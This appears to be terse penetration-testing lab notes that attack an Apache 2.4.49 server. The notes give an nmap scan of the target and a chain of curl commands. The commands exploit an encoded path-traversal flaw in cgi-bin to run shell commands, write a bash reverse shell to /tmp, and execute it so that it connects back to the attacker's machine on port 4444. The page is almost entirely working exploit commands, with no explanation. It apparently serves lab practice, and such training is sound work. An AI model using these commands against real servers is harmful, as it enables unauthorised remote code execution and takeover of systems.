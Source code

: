 ```yaml
---
IP_KALI: 192.168.45.155
---
```

```
grep Exploits /usr/share/nmap/scripts/*.nse
```

```
curl 'http://192.168.163.188/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type:text/plain; echo; id'
```

```
curl 'http://192.168.163.188/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type:text/plain; echo; echo "#!/bin/bash\nbash -i >& /dev/tcp/192.168.45.155/4444 0>&1" > /tmp/vuln.sh'
```

```
curl 'http://192.168.163.188/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type:text/plain; echo; cat /tmp/vuln.sh'
```

```
curl 'http://192.168.163.188/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh' --data 'echo Content-Type:
text/plain; echo; bash /tmp/vuln.sh'
```

┌──(kali㉿kali)-[~/Downloads]
└─$ nmap -A -T4 -p- 192.168.163.188                         
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-16 11:18 EDT
Nmap scan report for 192.168.163.188
Host is up (0.032s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.49 (Unix)
|_http-title: Paradigm Shifts
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=10/16%OT=80%CT=1%CU=39281%PV=Y%DS=4%DC=T%G=Y%TM=670
OS:FD95B%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10F%TI=Z%II=I%TS=A)OPS(
OS:O1=M551ST11NW7%O2=M551ST11NW7%O3=M551NNT11NW7%O4=M551ST11NW7%O5=M551ST11
OS:NW7%O6=M551ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M551NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0
OS:%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUC
OS:K=8750%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops

TRACEROUTE (using port 1723/tcp)
HOP RTT      ADDRESS
